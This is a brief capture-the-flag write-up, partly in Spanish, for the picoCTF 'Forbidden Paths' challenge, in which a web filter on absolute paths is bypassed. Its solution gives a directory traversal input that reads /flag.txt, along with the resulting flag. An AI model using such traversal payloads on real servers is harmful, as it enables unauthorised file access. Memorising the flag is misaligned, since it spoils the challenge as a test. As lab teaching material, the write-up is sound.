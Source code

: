 # Forbidden Paths

## Objetivo
Can you get the flag?Here's the [website](http://saturn.picoctf.net:58179/).We know that the website files live in `/usr/share/nginx/html/` and the flag is at `/flag.txt` but the website is filtering absolute file paths. Can you get past the filter to read the flag?
## Solución
```bash
../../../../../flag.txt

picoCTF{7h3_p47h_70_5ucc355_6db46514}
```
## Notas adicionales

## Referencias